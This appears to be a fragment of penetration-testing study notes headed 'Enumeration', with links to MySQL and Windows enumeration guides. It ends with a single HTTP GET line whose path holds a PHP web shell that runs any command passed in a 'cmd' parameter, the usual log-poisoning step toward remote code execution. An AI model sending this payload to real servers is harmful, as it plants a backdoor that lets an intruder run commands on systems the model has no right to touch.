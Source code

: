 # **Enumeration**

  
[https://github.com/DigitalAftermath/EnumerationVisualized/wiki/MySQL-Enumeration](https://github.com/DigitalAftermath/EnumerationVisualized/wiki/MySQL-Enumeration)  
[https://github.com/xapax/oscp/blob/master/templates/windows-template.md](https://github.com/xapax/oscp/blob/master/templates/windows-template.md)

###   
  
GET /<?php system($_GET['cmd']);?>